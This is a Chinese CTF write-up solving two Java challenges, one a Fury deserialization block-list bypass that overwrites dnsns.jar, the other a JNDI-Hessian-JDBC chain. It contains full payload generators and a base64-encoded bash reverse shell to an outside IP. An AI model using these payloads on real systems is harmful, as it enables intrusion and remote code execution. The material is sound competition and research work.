



## Fileury

本文最初发表于 [SU 战队的 2026 ALICTF WriteUp](https://su-team.cn/post/alictf-su-2026-wu/#fileury)。

自 RCTF 一役沉寂许久，中间更是在 0CTF 被打得找不着北，未曾想今朝阿里云 CTF 竟让我寻回了用武之地。

话不多说，直接看题，题目使用 Apache Fury 进行反序列化，配置如下：

```Java
Fury fury = Fury.builder()
    .withLanguage(Language.JAVA)
    .requireClassRegistration(false)  // 允许反序列化未注册类
    .build();
Object obj = fury.deserialize(Base64.getDecoder().decode(input));
```

### 黑名单分析

Fury 通过 `fury/disallowed.txt` 维护一份类黑名单，在反序列化时会检查类名是否在黑名单中。

**黑名单检查逻辑** (`DisallowedList.java`):

```Java
static void checkNotInDisallowedList(String clsName) {
    if (DEFAULT_DISALLOWED_LIST_SET.contains(clsName)) {
        throw new InsecureException(String.format("%s hit disallowed list", clsName));
    }
}
```

黑名单包含了大部分常用反序列化 Gadget 类:

复盘去年 WP 发现，当前环境缺失了 `com.feilong` 依赖，导致二次反序列化绕过黑名单的方案失效，这也意味着挖掘新利用链


先分析一下黑名单，包含了大部分常用反序列化 Gadget 类:

| Gadget 类                       | 状态                                    |
| ------------------------------- | --------------------------------------- |
| `TemplatesImpl`                 | ❌ 被拦截                                |
| `InvokerTransformer`            | ❌ 被拦截                                |
| `ChainedTransformer`            | ❌ 被拦截                                |
| `ConstantTransformer`           | ❌ 被拦截                                |
| `TiedMapEntry`                  | ❌ 未在黑名单但依赖的 Transformer 被拦截 |
| `BadAttributeValueExpException` | ❌ 被拦截                                |

**未被拦截的关键类**:

- `org.aspectj.weaver.tools.cache.SimpleCache$StoreableCachingMap`
- `org.apache.commons.collections.map.LazyMap`
- `org.apache.commons.collections.keyvalue.TiedMapEntry`
- `org.apache.commons.collections.comparators.TransformingComparator`
- `org.apache.commons.collections.functors.ConstantFactory`
- `org.apache.commons.collections.functors.StringValueTransformer`

起初试图复刻去年的思路挖掘二次反序列化，但此路俺没走通，失败了


### 构造任意文件写入链

就在一筹莫展之际，猛地想起老大梅子酒在 Non-RCE 题解中提到的 `StoreableCachingMap` 链子。这条链子能实现任意路径写文件，幸运地避开了黑名单的拦截**！**

```Java
HashSet.readObject()
    HashMap.put()
        HashMap.hash()
            TiedMapEntry.hashCode()
                TiedMapEntry.getValue()
                    LazyMap.get()
                        SimpleCache$StorableCachingMap.put()
                            SimpleCache$StorableCachingMap.writeToPath()
                                FileOutputStream.write()
```


**适配Fury 完整****POC****如下：**

```Java
package reproduce;

import org.apache.commons.collections.comparators.TransformingComparator;
import org.apache.commons.collections.functors.ConstantFactory;
import org.apache.commons.collections.functors.StringValueTransformer;
import org.apache.commons.collections.map.LazyMap;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.fury.Fury;
import org.apache.fury.config.Language;

import java.io.FileOutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.Base64;
import java.util.HashMap;
import java.util.Map;
import java.util.PriorityQueue;

public class ExpAspectJ {

    public static void main(String[] args) throws Exception {
        // Goal: Arbitrary File Write
        // Chain:
        // PriorityQueue.readObject() -> heapify() -> comparator.compare()
        // comparator = TransformingComparator(StringValueTransformer)
        // transformer.transform(TiedMapEntry) -> TiedMapEntry.toString()
        // TiedMapEntry.toString() -> getValue() -> map.get(key)
        // map = LazyMap(StoreableCachingMap, ConstantFactory(bytes))
        // LazyMap.get(key) -> factory.create(key) -> bytes
        // LazyMap.put(key, bytes) -> StoreableCachingMap.put(key, bytes) -> write bytes to file 'key'
        byte[] content = Files.readAllBytes(Paths.get("dnsns.jar"));

        String filename = "../../../../../../../../../usr/local/openjdk-8/jre/lib/ext/dnsns.jar";
//        byte[] content = cronPayload.getBytes();

        // 1. Setup StoreableCachingMap (The Inner Map)
        // Ensure access to the class
        Class<?> scMapClass = Class.forName("org.aspectj.weaver.tools.cache.SimpleCache$StoreableCachingMap");
        Constructor<?> constructor = scMapClass.getDeclaredConstructor(String.class, int.class);
        constructor.setAccessible(true);
        // folder = ".", maxEntries = 100
        Map storeableMap = (Map) constructor.newInstance(".", 100);

        // 2. Setup LazyMap with ConstantFactory
        ConstantFactory factory = new ConstantFactory(content);
        Map lazyMap = LazyMap.decorate(storeableMap, factory);

        // 3. Setup TiedMapEntry
        TiedMapEntry entry = new TiedMapEntry(lazyMap, filename);

        // 4. Setup Comparator and Transformer
        // StringValueTransformer calls String.valueOf(obj) which calls obj.toString() (if not null)
        org.apache.commons.collections.Transformer transformer = StringValueTransformer.getInstance();
        TransformingComparator comparator = new TransformingComparator(transformer);

        // 5. Setup PriorityQueue
        PriorityQueue queue = new PriorityQueue(2, comparator);

        Field sizeField = PriorityQueue.class.getDeclaredField("size");
        sizeField.setAccessible(true);
        sizeField.set(queue, 2);

        Field queueField = PriorityQueue.class.getDeclaredField("queue");
        queueField.setAccessible(true);
        Object[] queueArray = new Object[2];
        queueArray[0] = entry;
        queueArray[1] = entry;
        queueField.set(queue, queueArray);

        // 6. Serialize with Fury
        System.out.println("Serializing AspectJ Chain with Fury...");
        Fury fury = Fury.builder().withLanguage(Language.JAVA).requireClassRegistration(false).build();
        byte[] serializedInfo = fury.serialize(queue);

        String b64 = Base64.getEncoder().encodeToString(serializedInfo);
        FileOutputStream fos = new FileOutputStream("payload_aj.b64");
        fos.write(b64.getBytes());
        fos.close();
        System.out.println("AspectJ Payload saved to payload_aj.b64");
    }
}
```

**利用链触发流程**:

```Plain
PriorityQueue.readObject()
  → heapify()
  → siftDown()
  → comparator.compare(queue[0], queue[1])
  → TransformingComparator.compare()
  → StringValueTransformer.transform(TiedMapEntry)
  → String.valueOf(TiedMapEntry)
  → TiedMapEntry.toString()
  → TiedMapEntry.getValue()
  → LazyMap.get(key)
  → factory.create()                    [ConstantFactory 返回预设的 byte[]]
  → StoreableCachingMap.put(key, value)
  → 写入文件 key，内容为 value
```

### 覆盖 dnsns.jar 并触发加载

有了写文件能力，我以为胜券在握。尝试了包括但不限于计划任务、LD_Preload、charsets.jar 等各种写入姿势，结果竟无一奏效。苦也！这波折腾直接把狂子写到怀疑人生，当时心凉半截，只道是这一血要拱手让人了


正所谓山重水复疑无路，柳暗花明又一村。绝境中忽忆起一篇 FastJson 写入绕过的文章，妙招在于开启 `-verbose:class` 参数，通过监控类加载情况，精准定位未被加载的 JAR 包实施覆盖利用。

通过监控类加载情况，`dnsns.jar` 没有被加载！

```Prolog
2026-02-02 13:51:14 [Loaded java.util.concurrent.ThreadPoolExecutor$AbortPolicy from /usr/local/openjdk-8/jre/lib/rt.jar]
2026-02-02 13:51:14 [Loaded java.util.concurrent.ThreadPoolExecutor$CallerRunsPolicy from /usr/local/openjdk-8/jre/lib/rt.jar]
2026-02-02 13:51:14 [Loaded java.util.concurrent.ThreadPoolExecutor$DiscardOldestPolicy from /usr/local/openjdk-8/jre/lib/rt.jar]
2026-02-02 13:51:14 [Loaded java.util.concurrent.ThreadPoolExecutor$DiscardPolicy from /usr/local/openjdk-8/jre/lib/rt.jar]
2026-02-02 13:51:14 [Loaded org.jboss.threads.JBossExecutors$3 from file:/app/app.jar]
2026-02-02 13:51:14 [Loaded org.jboss.threads.NullRunnable from file:/app/app.jar]
2026-02-02 13:51:14 [Loaded org.jboss.threads.JBossExecutors$5 from file:/app/app.jar]
2026-02-02 13:51:14 [Loaded java.lang.IllegalAccessError from /usr/local/openjdk-8/jre/lib/rt.jar]
2026-02-02 13:51:14 [Loaded org.jboss.threads.LoggingUncaughtExceptionHandler from file:/app/app.jar]
2026-02-02 13:51:14 [Loaded org.wildfly.common.cpu.ProcessorInfo from file:/app/app.jar]
2026-02-02 13:51:14 [Loaded sun.nio.cs.US_ASCII$Decoder from /usr/local/openjdk-8/jre/lib/rt.jar]
2026-02-02 13:51:14 [Loaded org.jboss.threads.Version from file:/app/app.jar]
2026-02-02 13:51:14 [Loaded org.jboss.threads.Messages from file:/app/app.jar]
2026-02-02 13:51:14 [Loaded org.jboss.threads.Messages_$logger from file:/app/app.jar]
2026-02-02 13:51:14 [Loaded org.jboss.threads.StoppedExecutorException from file:/app/app.jar]
2026-02-02 13:51:14 [Loaded org.jboss.threads.EnhancedQueueExecutor$MBeanUnregisterAction from file:/app/app.jar]
2026-02-02 13:51:14 [Loaded org.jboss.threads.EnhancedQueueExecutor$MXBeanImpl from file:/app/app.jar]
2026-02-02 13:51:14 [Loaded org.jboss.threads.Waiter from file:/app/app.jar]
2026-02-02 13:51:14 [Loaded java.util.concurrent.atomic.Striped64 from /usr/local/openjdk-8/jre/lib/rt.jar]
2026-02-02 13:51:14 [Loaded java.util.concurrent.atomic.LongAdder from /usr/local/openjdk-8/jre/lib/rt.jar]
```

这意味着可以通过反序列化

`sun.net.spi.nameservice.dns.DNSNameServiceDescriptor`触发`dnsns.jar`加载。这一记回马枪，直接让死局复活

```Java
package reproduce;

import org.apache.fury.Fury;
import org.apache.fury.config.Language;
import java.io.FileOutputStream;
import java.util.Base64;

public class ExpDNS {
    public static void main(String[] args) throws Exception {
        System.out.println("Generating payload to load sun.net.spi.nameservice.dns.DNSNameServiceDescriptor...");

        Fury fury = Fury.builder()
                .withLanguage(Language.JAVA)
                .requireClassRegistration(false)
                .build();

        // Load the class via reflection to avoid compilation errors if access is restricted
        Class<?> clazz = Class.forName("sun.net.spi.nameservice.dns.DNSNameServiceDescriptor");
        Object instance = clazz.newInstance();

        byte[] payload = fury.serialize(instance);
        String b64 = Base64.getEncoder().encodeToString(payload);

        try (FileOutputStream fos = new FileOutputStream("payload_dns.b64")) {
            fos.write(b64.getBytes());
        }

        System.out.println("Payload saved to payload_dns.b64");
        System.out.println("Payload Base64: " + b64);
    }
}
```

至于`dnsns.jar` 怎么改？驰骋AWDP赛场的诸君，像这种`JarEditor` 手改字节码的基操，想必无需我多言了，对吧？


先发包覆盖`dnsns.jar` ，再发包触发恶意类加载，完成RCE



比赛结束后，我试图向她解释什么是 Apache Fury 的黑名单绕过，解释那个 `dnsns.jar` 的覆盖是多么的神来之笔。她只是淡淡地看了我一眼转身就走了

那一刻我才明白

**可惜她不懂JAVA，也不懂我的⚡超！⚡级！⚡炎！🔥舞！🔥爆！⚡爆！⚡回！⚡**


### 参考资料

参考资料：

1. [AliyunCTF2025 题解之 Jtools Fury 反序列化利用分析](https://mp.weixin.qq.com/s/dMl0aEg6p7w7MKlUe7pCdg?poc_token=HO5E0WejTX00WfrQI8oI22YsiTkxiEcLfLgbYyWv)
2. [AliyunCTF2025-JTools分析](https://eddiemurphy89.github.io/2025/03/01/AliyunCTF2025-JTools分析/#前言)
3. [Servlet中的时间竞争及AspectJWeaver反序列化Gadget构造[non-RCE 题解\]](https://meizjm3i.github.io/2021/03/07/Servlet中的时间竞争以及AsjpectJWeaver反序列化Gadget构造-AntCTFxD-3CTF-non-RCE题解/)
4. [[Java Puzzle #3 WP\] Fastjson write ascii JAR RCE](https://mp.weixin.qq.com/s/9e0V4bnV6fuGAfO1AKLYdw)
5. [可惜她不玩街霸，也没人懂我的⚡超！⚡级！⚡炎！🔥舞！🔥爆！⚡爆！⚡回！⚡](https://www.bilibili.com/video/BV1kdnszCEUy/?spm_id_from=333.337.search-card.all.click&vd_source=6870219ddced853e80ae239d5319e97c)

## MHGA

本文最初发表于 [SU 战队的 2026 ALICTF WriteUp](https://su-team.cn/post/alictf-su-2026-wu/#mhga)。

我曾经发誓这辈子不会再为Java流泪，但MHGA这JNDI+Hessian+JDBC组合洞的韧性让我哭花了妆😭😭😭

### **入口点**

题目提供了一个 Spring Boot 应用，核心在于 `Web.java` 提供了一个 HTTP 接口，该接口接受一个 `X-Lookup-URL` 头，并对其进行 JNDI `lookup`。

```Java
// Web.java
String url = exchange.getRequestHeaders().getFirst("X-Lookup-URL");
new InitialContext().lookup(url);
```

这是一个典型的 JNDI 注入入口，JDK版本为 OpenJDK 11.0.29 

### **Stage 1:**  **Hessian** **链构造**

题目名称暗示了 Hessian。检查依赖发现 `com.caucho.hessian.client.HessianProxyFactory` 实现了 `javax.naming.spi.ObjectFactory`。

可以通过 JNDI 返回一个 `Reference` 指向 `HessianProxyFactory`，所有的 `Reference` 属性都会被转化为 Hessian 代理的配置。

当 JNDI 进行 `getObjectInstance` 时，返回的是一个 Hessian 代理对象。如果后续对这个代理对象调用了方法，就会触发 Hessian 反序列化请求。

```Java
// HessianProxyFactory.java
public Object getObjectInstance(Object obj, Name name, Context nameCtx, Hashtable<?, ?> environment) throws Exception {
    Reference ref = (Reference)obj;
    String api = null;
    String url = null;

    for (int i = 0; i < ref.size(); i++) {
        RefAddr addr = ref.get(i);
        String type = addr.getType();
        String value = (String)addr.getContent();
        // 提取 Reference 中的配置
        if (type.equals("type")) {
            api = value; // 代理接口类型
        } else if (type.equals("url")) {
            url = value; // 目标 URL
        }
        // ... user, password ...
    }
    // 创建 Hessian 代理
    Class apiClass = Class.forName(api, false, this._loader);
    return this.create(apiClass, url);
}
```

**利用点**：

攻击者可以通过 JNDI 返回一个精心构造的 `Reference`：

1. **Factory Class**: `com.caucho.hessian.client.HessianProxyFactory` (本地存在)。
2. **type**: 设置为任意接口（例如 `javax.naming.directory.DirContext`）。
3. **url**: 设置为攻击者控制的 HTTP 地址。

当 `JndiLoginModule` 获取到这个对象后，它实际上是一个 Hessian 代理。一旦它调用该对象的任何方法（如 `DirContext.search`），Hessian 代理就会拦截调用，并通过 HTTP POST 请求将方法调用序列化发送给攻击者的 URL。

攻击者响应该 HTTP 请求时，返回一个恶意的 Hessian 序列化数据（RPC Reply），客户端在收到响应后会反序列化该数据，从而触发 Gadget Chain。

至于Hessian Payload，发现存在Jackson依赖就好办了，使用 `Jackson POJONode` 触发 `UnixPrintService`的getter 方法达成RCE 

2026 年了，不识 `UnixPrintService`，纵称英雄也枉然，快去学习我大哥yemoli在KCON2023首秀的《**Magic In Java** **API**》议题


**完整****POC****如下（** **Hessian** **序列化****数据必须是 2.0** **RPC** **Reply 格式）：**

```Java
package org.example;

import com.caucho.hessian.io.Hessian2Output;
import com.caucho.hessian.io.SerializerFactory;
import com.databricks.client.jdbc.internal.fasterxml.jackson.databind.node.POJONode;

import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtMethod;

import javax.management.BadAttributeValueExpException;
import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.lang.reflect.*;
import java.util.Base64;
import java.util.LinkedHashMap;
import java.util.concurrent.ConcurrentHashMap;
import java.util.concurrent.atomic.AtomicReference;

import static common.Reflections.newInstanceWithoutConstructor;
import static common.Reflections.setFieldValue;
import static common.Util.makeMap;
import static java.lang.reflect.AccessibleObject.setAccessible;

public class ExploitGenerator {

    // 目标文件路径
//    private static final String cmd = ";touch /tmp/pwnnnnn";
    private static final String cmd = "; echo YmFzaCAtaSA+JiAvZGV2L3RjcC8yMjMuMTA5LjQ5LjUxLzk5OTkgMD4mMQ== | base64 -d | bash; echo";

    public static void main(String[] args) throws Exception {

        Class<?> unsafeClass = Class.forName("sun.misc.Unsafe");
        Field unsafeField = unsafeClass.getDeclaredField("theUnsafe");
        unsafeField.setAccessible(true);
        Object unsafe = unsafeField.get(null);
        Method allocateInstance = unsafeClass.getMethod("allocateInstance", Class.class);

        // 3. 实例化 UnixPrintService (替换之前的 Proxy)
        // 这个类在 PrintServiceLookupProvider 中被广泛使用，是合法的 PrintService 实现
        Class<?> unixPrintServiceClass = Class.forName("sun.print.UnixPrintService");
        Object service = allocateInstance.invoke(unsafe, unixPrintServiceClass);

        setFieldValue(service, "printer", cmd);
        setFieldValue(service, "isInvalid", false);
        setFieldValue(service, "lpcStatusCom", new String[]{"", "", "", ""});

        POJONode pojoNode = new POJONode(service);

//
        // ---------------------------------------------------------
        // 5. Hessian2 序列化 (关键修复部分)
        // ---------------------------------------------------------
        byte[] payload = Hessian2_serialize(pojoNode);

        // 6. 输出 Base64
        String base64Payload = Base64.getEncoder().encodeToString(payload);
        System.out.println("----- Payload (Base64) -----");
        System.out.println(base64Payload);
        System.out.println("----------------------------");
    }

    public static byte[] Hessian2_serialize(Object o) throws IOException {
        SerializerFactory factory = new SerializerFactory();
        factory.setAllowNonSerializable(true);
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        Hessian2Output hessian2Output = new Hessian2Output(baos);
        baos.write('H');  // Hessian 2.0 call header
        baos.write(0x02); // major version
        baos.write(0x00); // minor version
        baos.write('R');  // Reply marker
        baos.write(67);
        hessian2Output.setSerializerFactory(factory);
        hessian2Output.writeObject(o);
        hessian2Output.flush();
        return baos.toByteArray();
    }

    public static void setAccessible(AccessibleObject member) {
        String versionStr = System.getProperty("java.version");
        int javaVersion = Integer.parseInt(versionStr.split("\\.")[0]);

        // not possible to quiet runtime warnings anymore...
        // see https://bugs.openjdk.java.net/browse/JDK-8210522
        // to understand impact on Permit (i.e. it does not work
        // anymore with Java >= 12)
        member.setAccessible(true);
    }

}
```

直接通过 JNDI 返回 Hessian 代理对象并不会立即触发 RCE，因为 `InitialContext.lookup` 仅仅返回对象，并不一定会调用其任意方法。

### **Stage 2:  ViburDBCPObjectFactory到 Databricks** **JDBC**

首先想到的是浅蓝师傅的《探索高版本 JDK 下 JNDI 漏洞的利用方法》提到的`LookupRef` 可以触发二次JNDI请求，后续会调用getClass()方法，触发hessian反序列化，但是其只存在在Tomcat 依赖中

难道这就陷入到僵局了嘛，Bro😭😭😭

```Java
LookupRef ref = new LookupRef("java.lang.String","look");
ref.add(new StringRefAddr("factory", "com.caucho.hessian.client.HessianProxyFactory"));
//com.caucho.burlap.client.BurlapProxyFactory
ref.add(new StringRefAddr("type", "java.lang.AutoCloseable"));
ref.add(new StringRefAddr("url", "http://127.0.0.1:6666/"));
@Override
public Object getObjectInstance(Object obj, Name name, Context nameCtx,
        Hashtable<?, ?> environment) throws Exception {

    String lookupName = null;
    Object result = null;

    if (obj instanceof LookupRef) {
        Reference ref = (Reference) obj;
        ObjectFactory factory = null;
        RefAddr lookupNameRefAddr = ref.get(LookupRef.LOOKUP_NAME);
        if (lookupNameRefAddr != null) {
            lookupName = lookupNameRefAddr.getContent().toString();
        }

        try {
            if (lookupName != null) {
                if (!names.get().add(lookupName)) {
                    String msg = sm.getString("lookupFactory.circularReference", lookupName);
                    NamingException ne = new NamingException(msg);
                    log.warn(msg, ne);
                    throw ne;
                }
            }
            RefAddr factoryRefAddr = ref.get(Constants.FACTORY);
            if (factoryRefAddr != null) {
                // Using the specified factory
                String factoryClassName = factoryRefAddr.getContent().toString();
                // Loading factory
                ClassLoader tcl = Thread.currentThread().getContextClassLoader();
                Class<?> factoryClass = null;
                if (tcl != null) {
                    try {
                        factoryClass = tcl.loadClass(factoryClassName);
                    } catch (ClassNotFoundException e) {
                        NamingException ex = new NamingException(
                                sm.getString("lookupFactory.loadFailed"));
                        ex.initCause(e);
                        throw ex;
                    }
                } else {
                    try {
                        factoryClass = Class.forName(factoryClassName);
                    } catch (ClassNotFoundException e) {
                        NamingException ex = new NamingException(
                                sm.getString("lookupFactory.loadFailed"));
                        ex.initCause(e);
                        throw ex;
                    }
                }
                if (factoryClass != null) {
                    try {
                        factory = (ObjectFactory) factoryClass.getConstructor().newInstance();
                    } catch (Throwable t) {
                        if (t instanceof NamingException)
                            throw (NamingException) t;
                        NamingException ex = new NamingException(
                                sm.getString("lookupFactory.createFailed"));
                        ex.initCause(t);
                        throw ex;
                    }
                }
            }
            // Note: No defaults here
            if (factory != null) {
                result = factory.getObjectInstance(obj, name, nameCtx, environment);
            } else {
                if (lookupName == null) {
                    throw new NamingException(sm.getString("lookupFactory.createFailed"));
                } else {
                    result = new InitialContext().lookup(lookupName);
                }
            }

            Class<?> clazz = Class.forName(ref.getClassName());
            if (result != null && !clazz.isAssignableFrom(result.getClass())) {
                String msg = sm.getString("lookupFactory.typeMismatch",
                        name, ref.getClassName(), lookupName, result.getClass().getName());
                NamingException ne = new NamingException(msg);
                log.warn(msg, ne);
                // Close the resource we no longer need if we know how to do so
                if (isInstance(result.getClass(), "java.lang.AutoCloseable")) {
                    try {
                        Method m = result.getClass().getMethod("close");
                        m.invoke(result);
                    } catch (Exception e) {
                        // Ignore
                    }
                }
                throw ne;
            }
        } finally {
            names.get().remove(lookupName);
        }
    }


    return result;
}
```


继续分析发现还存在ViburDBCPObjectFactory 可以利用，其中，允许通过 JNDI Reference 实例化并配置一个 DataSource，且会自动调用其 `start()`方法内部调用 `DriverManager.getDriver(jdbcUrl)`，从而触发JDBC 攻击

值得庆幸的是有 Databricks JDBC 驱动且存在CVE-2024-49194 会触发JNDI注入，

搭建 HTTP 服务器，提供 `jaas.conf`：

```Plain
Client {
   com.sun.security.auth.module.JndiLoginModule required
   user.provider.url="ldap://attacker:1389/Hessian/Exploit"
   group.provider.url="test"
   tryFirstPass="true";
};
```

当 JDBC 驱动加载此配置并进行身份验证时，`JndiLoginModule` 会读取 `user.provider.url` 并执行 `ctx.lookup()`，那么整条攻击链条就瞬间闭环了

**攻击链路：**

1. **Attacker**: 发送 `X-Lookup-URL: ldap://attacker/Vibur/Exploit`
2. **Server**: JNDI lookup -> `ViburDBCPObjectFactory`
3. **Vibur**: 创建 DataSource -> 连接 JDBC URL
4. **JDBC**: 下载 `http://attacker/jaas.conf` -> 加载 `JndiLoginModule`
5. **JAAS**: JndiLoginModule lookup `ldap://attacker/Hessian/Exploit`
6. **Hessian**: 返回 `HessianProxy` (代理 `DirContext`)
7. **JAAS**: 调用 `proxy.search()` -> 触发 Hessian 请求
8. **Server**: 反序列化 Hessian Payload -> `UnixPrintService` -> RCE
9. **RCE**: `chmod 444 /flag && cat /flag` -> CAT FLAG


### Stage 3:  获取FLAG

改写x1r0z 师傅的`JNDIMap` 项目修改参考 https://github.com/N1etzsche0/JNDIMap



爽！😎这才叫RCE🎶！😋👍爽！😎这才叫RCE🎶！😋👍😎这才叫RCE🎶！



GGWP

青山不改，绿水长流。山水有相逢，下篇WP再见


### 参考资料

参考资料：

1. [Magic In Java Api](https://github.com/knownsec/KCon/blob/master/2023/Magic In Java Api.pdf)
2. [探索高版本 JDK 下 JNDI 漏洞的利用方法](https://tttang.com/archive/1405/)
3. [CVE-2024-49194 Databricks JDBC 驱动 JNDI 注入漏洞分析](https://mp.weixin.qq.com/s/UdKf8PhTlXuWwfBDQXDGuA)
4. [JNDIMap](https://github.com/X1r0z/JNDIMap)
5. [NIKO15次梦碎Major](https://www.bilibili.com/video/BV1AZmEBVEsU/?share_source=copy_web&vd_source=8c76f8e232993e8e3083ed467fe773f7)、[😭一生只哭18次😭](https://www.bilibili.com/video/BV1GEm9BoEnq/?spm_id_from=333.337.search-card.all.click&vd_source=6870219ddced853e80ae239d5319e97c)、[【活着】“所以生命啊，它苦涩如歌”](https://www.bilibili.com/video/BV15Y4y117sn/?share_source=copy_web&vd_source=8c76f8e232993e8e3083ed467fe773f7)
